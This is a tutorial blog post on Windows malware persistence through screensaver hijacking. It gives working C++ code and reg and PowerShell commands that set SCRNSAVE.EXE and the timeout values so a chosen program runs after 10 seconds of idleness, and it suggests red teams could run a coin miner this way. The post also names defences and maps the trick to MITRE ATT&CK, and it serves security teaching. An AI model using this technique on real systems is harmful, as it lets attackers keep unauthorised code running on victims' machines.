

## 43. malware development: persistence - part 2. Screensaver hijack. C++ example.

{width="80%"}    

This post is a second part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching another persistence trick: Abusing screensavers.    

### screensavers

Screensavers are programs that execute after a configurable time of user inactivity. This feature of Windows it is known to be abused by threat actors as a method of persistence. Screensavers are PE-files with a `.scr` extension by default and settings are stored in the following registry keys:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    

{width="80%"}    

set to `1` to enable screensaver.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - 
sets user inactivity timeout before screensaver is executed.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - 
set the app path to run.    

### practical example

Let's go to look at a practical example. Let's say we have a *"malware"* from [previous](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) part `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

And save it to folder `Z:\\2022-04-26-malware-pers-2\`:    

{width="80%"}    

Then, let's create a script `pers.cpp` that creates registry keys that will execute our program `hack.exe` when user inactive `10` seconds:    

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, 
    REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, 
    REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, 
    REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry keys for timeout and app path. Registry keys can be added from the `cmd` terminal:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE \
/d Z:\2022-04-26-malware-pers-2\hack.exe
```

or `powershell` commands:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'SCRNSAVE.EXE' -Value \
'Z:\2022-04-26-malware-pers-2\hack.exe'
```

but since I love to write code, I wanted to show how to do it with some lines of code.    

### demo

Let's compile our `pers.cpp` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Then, for the purity of experiment, first of all, check registry keys in the victim's machine and delete keys if exists:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
```

{width="80%"}    

{width="80%"}    

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

{width="80%"}    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again and wait `10` seconds or just inactive `10` seconds:    

{width="80%"}    

Pwn! Everything is worked perfectly :)    

After the end of the experiment, delete the keys:    

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

{width="80%"}    

### conclusion

The problem with this persistence trick is that the session is terminated when the user comes back and the system is not idle. However, red teams can perform their operations (something like coin miner) during the user's absence. If screensavers are disabled by group policy, this method cannot be used for persistence. Also you can block `.scr` files from being executed from non-standard locations.   

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[source code in github](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    
